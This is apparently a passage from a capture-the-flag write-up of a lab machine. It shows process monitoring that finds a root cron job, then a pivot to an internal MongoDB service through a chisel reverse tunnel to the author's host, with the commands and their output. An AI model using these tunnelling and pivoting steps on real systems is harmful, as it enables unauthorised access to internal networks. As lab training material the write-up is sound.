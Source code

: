```bash
2022/08/22 11:18:01 CMD: UID=0    PID=35318  | /usr/sbin/CRON -f 
2022/08/22 11:18:01 CMD: UID=0    PID=35317  | /usr/sbin/CRON -f 
2022/08/22 11:18:01 CMD: UID=0    PID=35322  | /bin/sh -c python3 /root/.backup/update_mongo.py 
2022/08/22 11:18:01 CMD: UID=0    PID=35321  | 
2022/08/22 11:18:01 CMD: UID=0    PID=35320  | 
2022/08/22 11:18:01 CMD: UID=0    PID=35323  | python3 /root/.backup/update_mongo.py 

```

Again


```bash
2022/08/22 11:21:01 CMD: UID=0    PID=35360  | python3 /root/.backup/update_mongo.py 
2022/08/22 11:21:01 CMD: UID=0    PID=35359  | /bin/sh -c python3 /root/.backup/update_mongo.py 
```

That's a job running every couple of minuts. MongoDB is running. Let's check it. 
Mongodb default port is 27017.


```bash
tcp        0      0 172.17.0.1:36868        172.17.0.2:27017        TIME_WAIT  
tcp        0      0 172.17.0.1:36870        172.17.0.2:27017        TIME_WAIT  
```

# Pivoting to MongoDB.

We need to connect to `172.17.0.2` through `172.17.0.1`. Let's do chisel. 

On my machine
`chisel server --reverse --port 9000`

```bash
└─$ chisel server --reverse --port 9000
2022/08/22 13:21:28 server: Reverse tunnelling enabled
2022/08/22 13:21:28 server: Fingerprint Edh+JgL8qk+dwz7lq/slzgJ7SInwv51phisB5HfmReI=
2022/08/22 13:21:28 server: Listening on http://0.0.0.0:9000
2022/08/22 13:22:23 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/08/22 13:22:23 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening
```
On the remote ssh 

`./chisel client 10.10.14.159:9000 R:27017:172.17.0.2:27017`

```bash
saul@talkative:/tmp$ ./chisel client 10.10.14.159:9000 R:27017:172.17.0.2:27017
2022/08/22 12:24:02 client: Connecting to ws://10.10.14.159:9000
2022/08/22 12:24:03 client: Connected (Latency 169.482446ms)
```

Downloaded https://www.mongodb.com/try/download/shell
after installing, we connect to mongodb through the default port. 

```bash
 mongosh mongodb://127.0.0.1:27017
Current Mongosh Log ID: 63038214049628f125652a2a
Connecting to:          mongodb://127.0.0.1:27017/?directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+1.5.4
Using MongoDB:          4.0.26
Using Mongosh:          1.5.4

For mongosh info see: https://docs.mongodb.com/mongodb-shell/
------
   The server generated these startup warnings when booting
   2022-08-22T06:51:09.751+0000: 
   2022-08-22T06:51:09.751+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
```